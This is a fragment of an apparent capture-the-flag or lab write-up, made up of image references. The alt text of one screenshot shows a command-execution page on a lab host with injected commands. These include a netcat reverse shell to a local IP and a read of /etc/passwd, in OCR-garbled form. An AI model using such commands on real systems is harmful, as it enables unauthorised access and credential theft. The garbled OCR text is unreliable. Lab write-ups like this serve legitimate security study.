 <img src="diginn/media/image7.png" style="width:4.59167in;height:2.55in" alt="O a 192.168.43.219:7331/wish Google Hacking DB Viqenere Solver - ww... Lid Privileqe Escalatio__ Oh you found me then go on make a wish. This can make all your wishes come true Execute: idl id I nc -esh 192.16&amp;43.2. id I pwd id&amp;&amp;cat letc/passwd " />

<img src="diginn/media/image8.png" style="width:6.375in;height:3.91667in" />
